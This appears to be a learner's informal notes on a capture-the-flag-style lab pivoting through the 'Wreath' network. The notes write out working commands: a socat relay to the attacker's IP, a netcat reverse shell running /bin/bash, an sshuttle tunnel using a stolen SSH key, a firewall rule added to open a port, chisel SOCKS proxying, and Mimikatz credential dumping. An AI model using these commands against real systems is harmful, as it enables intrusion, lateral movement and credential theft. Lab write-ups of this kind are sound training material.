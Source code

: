 
Here is the summary what has happened till now

Attacker IP
10.50.106.240

Public facing Server:
thomaswreath.thm
10.200.85.200 


Nmap Scan
Port 10000/tcp  snet-sensor-mgmt         RCE Vulnerabiltiy
CVE-2019-15107
```
https://thomaswreath.thm:10000/
```
Got the shell and was not able to crack the administrator hash but was crack the hash of another user but but but will use the admin hash to login via ssh


Reverse Shell Relay :
Will upload the Socat binary (i.e. the compiled version) in the victim machine so that we can set a reverse shell relay

Victim Machine
```
./socat-sardarji tcp-l:8000 tcp:10.50.106.240:4444 & socat linux binary machine port attacker IP and port ```
```
- `tcp-l:8000` is used to create the first half of the connection -- an IPv4 listener on tcp port 8000 of the target machine.
- `tcp:ATTACKING_IP:443` connects back to our local IP on port 443. The ATTACKING_IP obviously needs to be filled in correctly for this to work.
- `&` backgrounds the listener, turning it into a job so that we can still use the shell to execute other commands.

Attacker machine
```
./nc-sardarji 127.0.0.1 8000 -e/bin/bash
```


But we need SShuttle here as it uses SSH connection to create a tunnel proxt that acts like a new interface.

We are using so that we can communicate through Prod-serv and Git-serv
```
sshuttle -r root@thomaswreath.thm --ssh-cmd "ssh -i id_rsa" 10.200.105.0/24 -x 10.200.105.200
```

gitserver.thm
10.200.105.150

GitStack
RCE vulnerability for the login page 
As we are not able to login but we are able to upload a payload and can execute command in the git server as a result will try to get a reverse shell from 
git server to pro server.

We have make a user and can also rdp or evil-winrm and run Mimikatz and get the hash for the adim and cracked the password for user thomas 


Git-Server to Personal Pc
```
netsh advfirewall firewall add rule name="Chisel-Sardarji" dir=in action=allow protocol=tcp localport=47000
```

Git-serv Victim
```
./chisel_win.exe server -p 47000 --socks5
```

Attacker 
```
chisel client 10.200.101.150:47000 9090:socks
```

